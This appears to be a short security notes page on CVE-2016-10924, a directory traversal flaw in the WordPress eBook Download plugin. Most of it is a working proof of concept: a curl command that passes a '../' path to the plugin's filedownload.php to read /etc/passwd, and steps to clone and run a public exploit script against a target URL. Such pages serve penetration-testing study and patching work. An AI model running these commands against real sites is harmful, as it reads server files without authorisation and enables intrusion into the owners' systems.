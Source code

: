 # Wordpress eBook Download < 1.2 - CVE-2016-10924

## Brief

{% hint style="info" %}
There is a directory traversal vulnerability in Wordpress eBook Download < 1.2, which allow remote attackers to read arbitrary files.
{% endhint %}

## PoC

### Manual

```bash
curl http://$target/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../etc/passwd
```

### Script

```bash
git clone https://github.com/rvizx/CVE-2016-10924
cd CVE-2016-10924
python pidbrute.py $url
```

